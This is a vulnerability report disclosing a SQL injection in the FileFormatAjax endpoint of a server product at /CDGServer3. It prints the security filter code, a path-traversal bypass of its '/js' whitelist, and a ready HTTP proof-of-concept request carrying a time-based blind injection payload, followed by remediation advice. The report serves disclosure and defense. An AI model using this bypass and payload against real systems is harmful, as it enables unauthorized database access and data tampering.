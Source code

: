 ![image-20250305231656909](./assets/image-20250305231656909.png)

![image-20250305232335207](./assets/image-20250305232335207.png)

# Vulnerability Report

## Vulnerability Type

SQL Injection

## Vulnerability Description

The `fileFormatId` parameter in the `FileFormatAjax` interface is not properly validated and sanitized, leading to a SQL injection vulnerability. An attacker can craft a malicious `fileFormatId` parameter to execute arbitrary SQL queries, potentially accessing or modifying sensitive information in the database.

## Filter Bypass

```java
public class RootSecurityFilter implements Filter {
    private List<String> whiteList = Arrays.asList("/index.jsp", "/index_en.jsp", "/index_tai.jsp", "/images/welcomebg.jpg", "/images/welcome_button_login1.jpg", "/images/welcome_button_login.jpg", "/images/welcome_button_help1.jpg", "/images/welcome_button_help.jpg", "/images/welcome_button_config1.jpg", "/images/welcome_button_config.jpg", "/images/zh/welcomebg.jpg", "/images/zh/welcome_button_login1.jpg", "/images/zh/welcome_button_login.jpg", "/images/zh/welcome_button_help1.jpg", "/images/zh/welcome_button_help.jpg", "/images/zh/welcome_button_config1.jpg", "/images/zh/welcome_button_config.jpg", "/images/eh/welcomebg.jpg", "/images/eh/welcome_button_login1.jpg", "/images/eh/welcome_button_login.jpg", "/images/eh/welcome_button_help1.jpg", "/images/eh/welcome_button_help.jpg", "/images/eh/welcome_button_config1.jpg", "/images/eh/welcome_button_config.jpg","/js");

    public RootSecurityFilter() {
    }

    public void init(FilterConfig filterConfig) throws ServletException {
    }

    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        HttpServletRequest httpRequest = (HttpServletRequest)request;
        HttpServletResponse httpResponse = (HttpServletResponse)response;
        String servletPath = httpRequest.getServletPath();
        if (this.whiteList.contains(servletPath)) {
            chain.doFilter(request, response);
        } else {
            httpResponse.sendError(403);
        }

    }

    public void destroy() {
    }
}
```

## sqli

```java
	String fileFormatId = request.getParameter("fileFormatId");
	if (fileFormatId == null || "".equals(fileFormatId.trim())) {
		response.sendRedirect("../loginExpire.jsp");
		return;
	}
	String curpage = request.getParameter("curPage");
	FlowDao dao = new FlowDao();
	Flow flow = dao.getAppById(fileFormatId);
	if (flow == null) {
		response.sendRedirect("../loginExpire.jsp");
		return;
	}
	List<FlowDetail> flowDetails = dao.getAppDetailById(fileFormatId);
```




## POC

An attacker can test the vulnerability using the following POC:

```
POST /CDGServer3/js/../FileFormatAjax HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded

command=delFileFormat&fileFormatId=-1'waitfor delay '0:0:5'--
```

## Impact Scope

This vulnerability may affect all functionalities that use the `FileFormatAjax` interface and allow user submission of the `fileFormatId` parameter.

## Remediation Suggestions

1. Strictly validate and sanitize the user input for the `fileFormatId` parameter to ensure it contains only legitimate values.
2. Use prepared statements to execute database queries to prevent SQL injection attacks.
3. Conduct regular security audits and code reviews to identify and remediate potential security vulnerabilities.
